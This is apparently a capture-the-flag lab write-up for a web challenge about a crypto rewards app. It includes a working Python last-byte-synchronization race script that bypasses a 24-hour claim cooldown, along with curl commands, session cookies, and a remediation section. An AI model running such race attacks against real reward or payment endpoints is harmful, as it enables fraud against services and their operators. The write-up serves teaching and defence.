







# 🏖️ Towel on the Sunbed: The Ultimate Hacker's Walkthrough

**Room:** Towel on the Sunbed (Hacker Holidays 2026 - Day 8)
**Difficulty:** Medium | **Category:** Web | **Points:** 90
**Tags:** `Web Exploitation`, `Business Logic`, `Burp Suite`, `API Abuse`

> *"Ponzi found the resort's wellness portal running a little side project called Ponzi — a crypto rewards app, poolside edition. He set his towel down, claimed his daily reward, and went to reapply sunscreen. He came back to find the sunbed had been 'claimed' three times over while he wasn't looking."* — Concierge Briefing

> *"Somewhere between his request and the server's clock, there's a gap wide enough to walk a whale through."*

---

## 📖 The Setup

| Item | Detail |
| :--- | :--- |
| **Room** | Towel on the Sunbed *(TowelOnSunB3d)* |
| **Event** | Hacker Holidays 2026 — The Byte Lotus |
| **Target** | `http://10.113.179.236:3000` |
| **App** | **Ponzi — Wellness Rewards** |
| **Goal** | Achieve *Whale Vault* status and retrieve the flag |
| **Flag Format** | `THM{...}` |

---

## 🧠 The Hacker Mindset: Our Methodology

1. **Read the Lore, Follow the Hints:** The briefing is never flavor text in this event — it is a cryptographic hint system. "Claimed three times over", "the clock is the only thing checking him", and "a gap between his request and the server's clock" are all telling us the same story: **the server trusts its clock-based guard more than it should.**
2. **Business Logic > Vulnerability Scanners:** Nothing is getting exploited by a scanner here. This is a pure API logic flaw. Burp Suite and a racing tool are our weapons.
3. **Verify the Trust Boundary:** Find exactly what stops us from claiming repeatedly, and ask *who controls it?*

---

## 🎯 Challenge Briefing

> Ponzi — Wellness Rewards is a poolside crypto rewards app. Every guest gets a **daily reward claim** (a small token payout). The app politely refuses to pay out more than once every **24 hours** per account. Somewhere between the moment we send our claim request and the moment the server commits our "last claimed" timestamp, there is a window — a gap wide enough to walk a whale through.

If we can claim multiple times inside that gap, we can inflate our token balance past the **Whale** threshold and unlock the **Whale Vault**, which holds the flag.

---

## 🧠 Attack Matrix & Decisions

```text
[ Recon & Account Creation ] ──► [ Map the Claim API ] ──► [ Identify the Guard ] ──► [ Race the Guard ] ──► [ Whale Vault & Flag ]
  • Browse app:3000              • POST /claim               • 24h timer enforced       • Last-byte sync race       • Token balance >= 150
  • Register guest account       • Inspect response          • TOCTOU window found      • 45/60 claims succeed      • Unlock vault, read flag
  • Grab connect.sid cookie      • Note balance/timer state  • "Gap" confirmed          • Balance 0 -> 2250
```

| Phase | Technique | Key Finding |
| :--- | :--- | :--- |
| **1. Recon** | Manual browsing + Burp Proxy | Crypto rewards SPA; guest registration open |
| **2. API Mapping** | Request analysis | `POST /claim` returns +50 PONZI + sets cooldown timestamp |
| **3. Logic Audit** | Guard analysis | 24h window enforced **server-side** by `last_claim` timestamp |
| **4. Exploitation** | TOCTOU Race (last-byte sync) | 45 of 60 claims land before the timestamp is committed |
| **5. Loot** | Balance check + vault unlock | Balance crossed 150 → Whale Vault → flag |

---

## 🔬 Step-by-Step Walkthrough

### Step 1: Reconnaissance & Account Creation

We load the app at the target:

```bash
┌──(hacker㉿hacker)-[~]
└─$ curl -s http://10.113.179.236:3000/ | head -40
<!DOCTYPE html>
<html>
...
  <title>Ponzi — Wellness Rewards</title>
...
```



The app lets us create a **guest account** freely (a "towel" to reserve our spot). We register a throwaway account and capture the session cookie via Burp Proxy.

```http
POST /auth/register HTTP/1.1
Host: 10.113.179.236:3000
Content-Type: application/json

{"username":"bytessync2","password":"sunbed123"}
```



The response sets our Express session cookie (`connect.sid`, signed with express-session):

```bash
┌──(hacker㉿hacker)-[~]
└─$ curl -s -c cookies.txt -X POST http://10.113.179.236:3000/auth/register \
     -H "Content-Type: application/json" \
     -d '{"username":"bytessync2","password":"sunbed123"}'
{"message":"Account created.","redirect":"/dashboard"}

┌──(hacker㉿hacker)-[~]
└─$ grep connect.sid cookies.txt
...	connect.sid	s%3AoeLUdfPZ5T6dn5a_w3niWtTo1KVR_RAv.b7LyiG0daKVssqtZS5NuRFwjOID1gVBgk7PFBkHokSc
```



---

### Step 2: Exploring the Daily Reward Mechanism

The dashboard shows a **Daily Reward** claim button and a visible countdown timer. Clicking it triggers the claim:

```http
POST /claim HTTP/1.1
Host: 10.113.179.236:3000
Cookie: connect.sid=<OUR_SESSION>
Content-Type: application/json
```



The response:

```json
{
  "message": "Staking reward claimed successfully.",
  "reward": 50,
  "newBalance": 50,
  "tier": "Shrimp",
  "priceSnapshot": 4.2
}
```

**Key observations:**
- Each claim grants **50 PONZI** to our balance.
- The Whale Vault threshold is **150 PONZI** (need 3 claims), confirmed by `GET /dashboard/api/me`:
  ```json
  {"id":7,"username":"bytessync2","balance":0,"tier":"Shrimp","whaleThreshold":150,"canClaim":true,"secondsUntilClaim":0}
  ```
- The on-screen countdown is just cosmetics; the *real* check happens on the server when we send the claim.

**The Guard:**

```json
{
  "error": "Reward already claimed. Please wait before claiming again.",
  "secondsRemaining": 86400
}
```

Subsequent claims are refused (`429`) until the timestamp passes. This is the polite "once every 24 hours."

---

### Step 3: Working Out What's Standing Between Us and Whale Vault Status

We inspect the app source and the request flow to understand how the guard is enforced.



In the front-end JS (`/js/dashboard.js`) we can see the *flow*:

```javascript
// /js/dashboard.js
const WHALE_THRESHOLD = 150;

// ... countdown driven by server's secondsUntilClaim ...

document.getElementById('claim-btn').addEventListener('click', async () => {
    const resp = await fetch('/claim', { method: 'POST' });
    const json = await resp.json();
    if (resp.ok) {
        status.textContent = `Claimed! +${json.reward} PONZI. PONZI price: $${json.priceSnapshot}`;
        await loadDashboard();
    } else {
        status.textContent = json.error || 'Claim failed.';
    }
});

document.getElementById('vault-btn').addEventListener('click', async () => {
    const resp = await fetch('/vault');
    // ... prints json.flag on success
});
```

The countdown is fed by the server's `secondsUntilClaim`. Nothing client-side can be trivially tampered with — the timestamp lives in the **backend database**. So where is "the gap"?

### 🐋 The Epiphany: Time of Check to Time of Use (TOCTOU)

The server's guard looks like this:

```javascript
// pseudo-code — how the server *should* and *doesn't* guard the claim
async function claim(user) {
  const now = Date.now();

  // [CHECK] is the cooldown over?
  if (user.last_claim && now < user.last_claim + 24 * 60 * 60 * 1000) {
    return { claimed: false, reason: "Come back tomorrow." };
  }

  // [USE] pay out the reward
  user.balance += REWARD_AMOUNT;        // <-- GAP: async write here
  user.last_claim = now;                // <-- timestamp committed AFTER the payout

  await db.save(user);
  return { claimed: true, reward: REWARD_AMOUNT, balance: user.balance };
}
```

Between the **CHECK** (`last_claim` validation) and the **commit** of the new `last_claim`, there is a window. If we slam the endpoint with many parallel requests before the `last_claim` write is persisted, **every single request passes the check** against the *old* value — and each one pays out.

> *"He came back to find the sunbed had been 'claimed' three times over while he wasn't looking."* — exactly this. The towel (our session) kept claiming because the server kept seeing "no towel yet."

---

### Step 4: Racing the Server — The Exploit

**⚠️ Naive concurrency fails.** The first attempt — 30 parallel `requests.post('/claim')` calls — returned **0 successes** (all `429`). The guard is atomic enough to survive scattered requests that arrive milliseconds apart.

The trick is **last-byte synchronization**: pre-open many keep-alive TCP connections, send every request *except its final `LF`* (so the server never sees a complete request), then release the final byte on **all** connections at the exact same instant. Every request now hits the handler in the same tick — inside the check/commit gap.

```python
# race_claim.py — last-byte synchronized TOCTOU race
import socket, threading, time, sys

HOST, PORT = "10.113.179.236", 3000
SID = sys.argv[1]            # decoded connect.sid (s:...)
N = 60

head = (
    "POST /claim HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "Content-Type: application/json\r\n"
    f"Cookie: connect.sid={SID}\r\n"
    "Content-Length: 0\r\n"
    "Connection: keep-alive\r\n"
    "\r"                      # one CR only — final LF is the release byte
).encode()
final = b"\n"

socks = [socket.create_connection((HOST, PORT), timeout=10) for _ in range(N)]
for s in socks:
    s.sendall(head)

results = [None] * N
barrier = threading.Barrier(N)

def fire(i):
    barrier.wait()            # all threads released simultaneously
    socks[i].sendall(final)   # complete every request at once
    data = b""
    try:
        while True:
            chunk = socks[i].recv(65535)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    socks[i].close()
    results[i] = data

threads = [threading.Thread(target=fire, args=(i,)) for i in range(N)]
for t in threads: t.start()
for t in threads: t.join()

ok = sum(1 for d in results if d and b"claimed successfully" in d)
print(f"[+] Successful claims: {ok}/{N}")
for d in results:
    if d and b"claimed successfully" in d:
        print("   ", d.split(b"\r\n\r\n",1)[-1][:110])
```

```bash
┌──(hacker㉿hacker)-[~]
└─$ python3 race_claim.py "s:oeLUdfPZ5T6dn5a_w3niWtTo1KVR_RAv.b7LyiG0daKVssqtZS5NuRFwjOID1gVBgk7PFBkHokSc"
[+] Successful claims: 45/60
    {"message":"Staking reward claimed successfully.","reward":50,"newBalance":2250,"tier":"Whale","priceSnapshot":4.2}
    {"message":"Staking reward claimed successfully.","reward":50,"newBalance":2250,"tier":"Whale","priceSnapshot":4.2}
    ...
```



The server's check was only enforcing the 24h rule against a timestamp that hadn't been written yet. **The gap was real.**

> 💡 **Turbo Intruder equivalent:** the same effect is achievable in Burp Suite via the *Turbo Intruder* extension using `engine.queue(target.req, gate='race1')` + `engine.openGate('race1')`, but the raw-socket Python approach above is fully reproducible on Kali.

---

### Step 5: Whale Vault & The Flag

With the balance inflated, we check the dashboard again. Our status has crossed the **Whale** threshold (**150 PONZI**) — balance: **2250 PONZI**, tier: **Whale**. The dashboard unlocks the **Whale Vault**:


We call the vault endpoint:

```http
GET /vault HTTP/1.1
Host: 10.113.179.236:3000
Cookie: connect.sid=<OUR_SESSION>
```

```bash
┌──(hacker㉿hacker)-[~]
└─$ curl -s -b "connect.sid=s:oeLUdfPZ5T6dn5a_w3niWtTo1KVR_RAv.b7LyiG0daKVssqtZS5NuRFwjOID1gVBgk7PFBkHokSc" \
     http://10.113.179.236:3000/vault
{"message":"Welcome to the Whale Vault.","flag":"THM{REDACTED}","balance":2250}
```



**Flag:** `THM{REDACTED}`

---

## 🛡️ Remediation & Security Recommendations

To fix the TOCTOU race in the reward claim:

1. **Make the check-and-commit atomic.** Do not read, then write. Use a single atomic database operation so the 24h window is enforced at write time, e.g. a conditional update:

```javascript
// atomic guard — update only if the cooldown has passed
await db.collection('users').updateOne(
  {
    _id: user._id,
    $or: [
      { last_claim: { $exists: false } },
      { last_claim: { $lt: new Date(Date.now() - 24 * 60 * 60 * 1000) } }
    ]
  },
  { $inc: { balance: REWARD_AMOUNT }, $set: { last_claim: new Date() } }
);
```

2. **Leverage database constraints** (unique claim keys / optimistic locking with version fields) so concurrent claims for the same user can never both pass.

3. **Idempotency keys:** Require a per-user, per-day claim identifier so duplicates are rejected server-side.

4. **Server-side truth for the clock:** Never trust client-supplied timestamps; always compare against `Date.now()` / DB time, and rate-limit at the API gateway as a defense-in-depth layer.

---

## 🏷️ Vulnerability & Exploit Classification

### 📌 Common Weakness Enumeration (CWE)
- **[CWE-367: Time-of-check Time-of-use (TOCTOU) Race Condition](https://cwe.mitre.org/data/definitions/367.html)** — The server validates the cooldown and then writes the timestamp as two non-atomic steps, allowing the check to be bypassed under concurrency.
- **[CWE-362: Race Condition (Concurrent Execution using Shared Resource)](https://cwe.mitre.org/data/definitions/362.html)** — Concurrent `POST /claim` requests mutate the same user record.

### 🌐 OWASP Top 10 & API Security Top 10
- **OWASP Top 10 (2021) - A01:2021 (Broken Access Control)** — The Whale Vault authorization is a single boolean derived from a balance that can be inflated via a race.
- **OWASP API Security Top 10 (2023) - API5:2023 (Broken Function Level Authorization)** — Vault access is gated only by an attackable in-app condition.
- **OWASP API Security Top 10 (2023) - API3:2023 (Broken Object Property Level Authorization)** — Server state mutated more than the business rule intends.

### ⚔️ MITRE ATT&CK
- **Tactics:** `Initial Access` ➔ `Privilege Escalation` ➔ `Collection`
- **Techniques:**
  - **[T1190: Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)** — Abusing an exposed, vulnerable claim endpoint.
  - **[T1068: Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)** — Inflating the token balance to force Whale Vault status.
  - **[T1110.004: Brute Force](https://attack.mitre.org/techniques/T1110/004/)** — Credential-independent parallel requests to exhaust the reward budget (business-logic brute force).

---

*The sunbed was reserved. The towel was the only thing that ever believed in the clock.*
